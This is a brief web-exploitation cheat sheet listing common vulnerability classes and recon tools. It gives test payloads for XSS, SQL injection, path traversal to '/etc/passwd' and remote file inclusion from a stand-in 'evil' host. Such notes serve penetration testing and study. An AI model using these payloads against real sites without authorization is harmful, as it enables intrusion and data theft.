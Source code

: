 # Hacking – Web Exploitation Cheat Sheet

## Common Vulnerability Classes
- XSS (Cross-Site Scripting): Inject JS payloads into inputs, look for reflected/DOM-based sinks.
- SQLi (SQL Injection): Use `' OR '1'='1` or `UNION SELECT` payloads to test query manipulation.
- IDOR (Insecure Direct Object Reference): Manipulate numeric IDs in URLs or POST bodies to access other users' data.
- SSRF (Server-Side Request Forgery): Try `http://127.0.0.1` or internal endpoints to pivot.
- LFI/RFI (Local/Remote File Inclusion): Try `?file=../../etc/passwd` or `?page=http://evil`.

## Quick Payloads
- Test XSS: `<script>alert(1)</script>`
- SQLi Boolean Test: `' AND '1'='1`
- SQLi Union Test: `' UNION SELECT null,null--`

## Recon Tips
- Enumerate subdomains with `subfinder`, `amass`.
- Spider endpoints with `ffuf`, `gobuster`.
- Look for hidden parameters using `Param Miner` or `Burp Bounty`.
